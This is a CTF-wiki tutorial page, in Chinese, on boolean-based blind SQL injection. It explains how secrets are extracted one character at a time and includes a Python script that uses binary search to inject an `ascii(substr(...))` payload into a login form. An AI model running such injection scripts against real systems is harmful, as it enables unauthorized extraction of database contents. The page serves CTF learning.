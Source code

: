 # 布尔盲注
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



布尔盲注，故名思意，与bool代数的运算有关，也就是和true和false有关


依赖于服务器给我们的响应，生活中这个漏洞相对来说还是比较多。


具体来说就是我们问服务器XXX第一个字符是不是a他告诉你不是，然后你问它第一个字符是不是b..................................一直推下去，相当于一个一个字符爆破出你想查询的信息。


主要靠的还是扎实的py脚本功夫


bool盲注依赖于脚本，这里给出几个bool盲注的脚本


这里都是二分法，遍历也行，但大家都学过时间复杂度，对吧。


```plain
import requests
import time
url = ""
files = {"file": "123456789"}
'''字段值'''
flag=''
for i in range(1,100):
low = 32
high = 128
mid = (low+high)//2
while (low < high):
time.sleep(0.06)
payload_flag = {
'username': "test\" or (ascii(substr((select secret from flag_tbl),{0},1))>{1}) #".format(i,mid),'password': 'test'}
r = requests.post(url=url,params=payload_flag,files=files, data={"PHP_SESSION_UPLOAD_PROGRESS": "123456789"},
cookies={"PHPSESSID": "test1"})
print(payload_flag)
if '<meta http-equiv="refresh" content="0; url=?p=home" />' in r.text:
low = mid +1
else:
high = mid
mid = (low + high) // 2
if(mid==32 or mid == 132):
break
flag +=chr(mid)
print(flag)
print(flag)
Plain Text
```
